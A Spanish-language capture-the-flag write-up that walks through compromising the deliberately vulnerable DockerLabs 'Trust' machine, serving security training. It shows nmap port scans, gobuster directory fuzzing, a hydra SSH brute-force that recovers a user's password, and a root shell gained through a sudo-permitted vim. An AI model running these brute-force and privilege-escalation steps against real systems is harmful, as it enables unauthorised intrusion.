

# Writeup Trust

**Difficulty:** Super easy<br>
**Dockerlabs link:** [https://dockerlabs.es/](https://dockerlabs.es/)

## Preparación del entorno
Lo primero es desplegar la máquina con el script que viene al descargarla:
```
❯ sudo ./auto_deploy.sh trust.tar
[sudo] contraseña para godack: 

	                   ##        .         
	             ## ## ##       ==         
	          ## ## ## ##      ===         
	      /""""""""""""""""\___/ ===       
	 ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	      \______ o          __/           
	        \    \        __/            
	         \____\______/               
                                           
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                          
				    

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es -→ 172.18.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta `trust-dockerlabs`, entramos y usamos la utilidad *mkt*, que crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir trust-dockerlabs
❯ cd trust-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  content
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  exploits
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  nmap
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  scripts
```
## Recon
Ahora que sabemos la IP, hacemos un escaneo completo para encontrar puertos abiertos de forma sigilosa y rápida:
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:46 CEST
Initiating ARP Ping Scan at 10:46
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 10:46, 0.10s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:46
Scanning 172.18.0.2 [65535 ports]
Discovered open port 80/tcp on 172.18.0.2
Discovered open port 22/tcp on 172.18.0.2
Completed SYN Stealth Scan at 10:46, 2.88s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.000024s latency).
Scanned at 2025-08-17 10:46:09 CEST for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Así descubrimos que los puertos abiertos son SSH (22) y HTTP (80).
Con la utilidad *extractPorts* los copiamos al portapapeles y luego lanzamos un escaneo más exhaustivo para descubrir el servicio y la versión de esos puertos.


```
❯ extractPorts allPorts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 172.18.0.2
   5   │     [*] Open ports: 22,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nmap -sCV -p22,80 172.18.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```

## Explotación
Como hay un servicio web y SSH corriendo, primero reunimos información de la web antes de probar SSH. Para ello añadimos una entrada a nuestro DNS local (/etc/hosts) con el nombre de la máquina (`trust`) y su IP.

```
❯ sudo vi /etc/hosts
[sudo] contraseña para godack: 
❯ cat /etc/hosts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   godack
   3   │ 
   4   │ 172.18.0.2  trust
   5   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Al acceder a la web vemos la página por defecto de Apache sin info útil, así que probamos a enumerar directorios con *gobuster*:

```
❯ gobuster dir -u http://trust/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://trust/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 270]
/.html                (Status: 403) [Size: 270]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.html                (Status: 403) [Size: 270]
/.php                 (Status: 403) [Size: 270]
/server-status        (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.php.bak (Status: 403) [Size: 270]
Progress: 6369160 / 6369165 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos una página oculta `/secret.php` que dice:

```
Hola Mario,

Esta web no se puede hackear.
```


Así que suponemos que un posible usuario es **Mario**.
Sin más info, el siguiente paso es fuerza bruta a SSH con *hydra*:

```
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://trust
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-18 20:05:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://trust:22/
[22][ssh] host: trust   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-18 20:05:51
```

Y obtenemos la contraseña **chocolate**.

## Escalada de privilegios
Una vez dentro, estabilizamos la shell:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Luego comprobamos qué podemos correr con *sudo*:

```
mario@f29b3bbef1a5:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on f29b3bbef1a5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on f29b3bbef1a5:
    (ALL) /usr/bin/vim
```

Abusamos de esto para lanzar una shell como root:

```
mario@f29b3bbef1a5:~$ sudo vim -c ':!/bin/bash'

root@f29b3bbef1a5:/home/mario# whoami
root
root@f29b3bbef1a5:/home/mario# 
```

¡Root conseguido!

## Lecciones aprendidas
1. Escaneos con **nmap**
2. Fuzzing con **gobuster**
3. Ataque de fuerza bruta con **hydra**
4. Escalada de privilegios con **vim**
